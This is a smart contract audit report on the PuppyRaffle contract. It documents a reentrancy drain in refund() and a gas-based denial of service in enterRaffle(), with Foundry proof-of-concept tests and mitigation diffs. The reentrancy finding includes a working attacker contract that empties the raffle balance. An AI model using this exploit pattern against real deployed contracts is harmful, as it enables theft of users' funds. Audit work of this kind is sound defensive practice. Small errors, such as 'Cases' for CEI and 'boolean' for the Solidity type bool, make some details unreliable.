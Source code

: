 ### [H-01] Deleting the player from `PuppyRaffle::players` array after refunding them entranceFee in `PuppyRaffle::refund()` results in Reentrancy vulnerability, draining the contract balance.

**Description:** `PuppyRaffle::refund()` allows players to refund their deposits by initiating external call first and subsequently setting the user's address to zero in `PuppyRaffle::players()` . This introduces a vulnerability to Reentrancy attack, where attacker could deploy a contract with a malicious fallback() function to retrigger`PuppyRaffle::refund()`. Since user remains in `PuppyRaffle::players()` at this point, they would successfully pass all checks, leading to repeatedly executions of sendValue, ultimately draining the contract.

```javascript
@>      payable(msg.sender).sendValue(entranceFee); // Reentrancy here
        players[playerIndex] = address(0);
```

**Impact:** The reentrancy vulnerability could result in a significant drain on contract's balance, potentially leading to financial losses for the contract owner and participants.

**Proof of Concept:** We set up an ReentrancyAttack contract with a malicious receive() function, have it enter PuppyRaffle with 4 other players and call refund() on it, with the following result,

- *puppyRaffle balance before attack: 5000000000000000000*
- *attackContract balance before attack: 0*
- *puppyRaffle balance after attack: 0*
- *attackContract balance after attack: 5000000000000000000*

<details>

<summary>Code</summary>

```javascript

    function testReentrancyInRefundFunction() public playersEntered {
        address alice = makeAddr("alice");
        deal(alice, 1 ether);
        vm.prank(alice);
        ReentrancyAttacker attacker = new ReentrancyAttacker{value: 1 ether}(address(puppyRaffle));

        address[] memory arr = new address[](1);
        arr[0] = address(attacker);
        
        vm.prank(address(attacker));
        puppyRaffle.enterRaffle{value:entranceFee}(arr);

        console.log("puppyRaffle balance before attack: %s", address(puppyRaffle).balance);
        console.log("attackContract balance before attack: %s", address(attacker).balance);

        assertEq(address(puppyRaffle).balance, 5 ether);
        assertEq(address(attacker).balance, 0);

        vm.prank(alice);
        attacker.setIdx();

        vm.startPrank(address(attacker));
        uint256 idx = puppyRaffle.getActivePlayerIndex(address(attacker));
        puppyRaffle.refund(idx);
        vm.stopPrank();

        console.log("puppyRaffle balance after attack: %s", address(puppyRaffle).balance);
        console.log("attackContract balance after attack: %s", address(attacker).balance);
        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(attacker).balance, 5 ether);

    }

    contract ReentrancyAttacker {
        PuppyRaffle public raffle;
        uint256 constant entranceFee = 1e18;
        uint256 public idx;

        address private owner;

        modifier onlyOwner() {
            require(msg.sender == owner, "You are not the owner");
            _;
        }

        constructor(address _raffle) payable {
            raffle = PuppyRaffle(_raffle);
            owner = msg.sender;
        }

        function setIdx() external onlyOwner {
            idx = raffle.getActivePlayerIndex(address(this));
        }

        receive() external payable {
            if (address(raffle).balance > 0) {
                raffle.refund(idx);
            }
        }
    }

```
</details>


**Recommended Mitigation:** You can go for one of the following counter measures,

1. Follow the CEI (Cases, Effects, Interactions) pattern. For the  `PuppyRaffle::refund()`, cover the checks first. Set the states after that. Make external calls at the end.
```diff

    function refund(uint256 playerIndex) public {
+           // Checks
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+           // Effects
+           players[playerIndex] = address(0);

+           // External Calls
            payable(msg.sender).sendValue(entranceFee);

-           players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);
        }

```

2. Consider using NonReentrant() modifier provided by OpenZeppelin contract.

```diff
+   import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

-   contract PuppyRaffle {
+   contract PuppyRaffle is ReentrancyGuard {
    // Rest of the code

-    function refund(uint256 playerIndex) public {}
+    function refund(uint256 playerIndex) public nonReentrant {}

    // Rest of the code
    }

```



### [M-01] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` function is a potential Denial-of-service (DoS) attack, incrementing gas costs for future players.

**Description:** The `PuppyRaffle::enterRaffle()` function checks for address duplicates using an unbounded for-loop which causes gas-costs to blow up, since the longer the `PuppyRaffle::players` array is, the more checks new players will have to make. This means, gas costs for players entering the raffle when the Raffle starts will be dramatically lower than those who enter later. Every additional address that gets added to players array results in additional duplicate address check that loop will have to make.

```javascript
    // DoS here due to unbounded for-loop
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }

```

**Impact:** The gas costs for entrants will greatly increases as more players join the raffle, discouraging later users from entering, causing a rush when Raffle starts, to be one of the first entrants.

**Proof of Concept:** If we have two sets of 100 players enter, the gas costs would be,

- *Gas consumed by 100 players: 6385604*
- *Gas consumed by next 100 players: 18387894*

<details>
<summary>PoC</summary>

Place the following test into `PuppyRaffleTest.t.sol`

```javascript

function testDosOnEnterRaffle() public {
    address playerZero = address(uint160(1000));
    deal(playerZero, 1 ether);
    address[] memory players = new address[](1);
    players[0] = playerZero;
    vm.prank(playerZero);
    puppyRaffle.enterRaffle{value: entranceFee * 1}(players);

    address alice = makeAddr("alice");
    deal(alice, 1 ether);


    address[] memory players2 = new address[](1);
    uint256 gasStartAlice = gasleft();
    players2[0] = alice;
    vm.prank(alice);
    puppyRaffle.enterRaffle{value: entranceFee * 1}(players2);
    uint256 gasLeftAlice = gasStartAlice - gasleft();

    // Adding 100 player to the bunch
    address[] memory playerx = new address[](100);
    for (uint256 idx; idx < playerx.length; idx++) {
        address play__er = address(uint160(idx));
        playerx[idx] = play__er;
    }
    uint256 gasStartCris = gasleft();
    address cris = makeAddr("cris");
    deal(cris, 100 ether);
    vm.prank(cris);  
    puppyRaffle.enterRaffle{value: entranceFee * playerx.length}(playerx);
    uint256 gasLeftCris = gasStartCris - gasleft();


    // Gas consumed by next 100 players
    uint256 count = 0;
    address[] memory playerz = new address[](100);
    for (uint256 idx; idx < playerz.length; idx++) {
        address play__er = address(uint160(idx+playerz.length));
        playerz[count] = play__er;
        count += 1;
    }

    uint256 gasStartDock = gasleft();
    address Dock = makeAddr("Dock");
    deal(Dock, 100 ether);
    vm.prank(Dock);  
    puppyRaffle.enterRaffle{value: entranceFee * playerx.length}(playerz);
    uint256 gasLeftDock = gasStartDock - gasleft();


    console.log("Gas consumed by alice: %s", gasLeftAlice);
    console.log("Gas consumed by 100 players: %s", gasLeftCris);
    console.log("Gas consumed by next 100 players: %s", gasLeftDock);

    assertLt(gasLeftAlice, gasLeftCris);
    assertLt(gasLeftCris, gasLeftDock);
}

```
</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing the duplicates. Users can make new wallet addresses anyways, so a duplicate check does not prevent the same person from entering twice using different wallet address. It only checks for same wallet address.
2. Consider using mapping to check for duplicates. This would allow constant lookup for whether there is a duplicate or not.

```diff

+   mapping(address => boolean) public addressExists;

    function enterRaffle(address[] memory newPlayers) public payable {
+       // Check for duplicates
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+           require(addressExists[newPlayers[i]] != true, "PuppyRaffle: Duplicate player");
+       }
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+           addressExists[newPlayers[i]] = true;
        }

        // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
        emit RaffleEnter(newPlayers);
    }

    function selectWinner() external {
+    // Empty out the addressExists

        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        // Rest of the code...
    }

```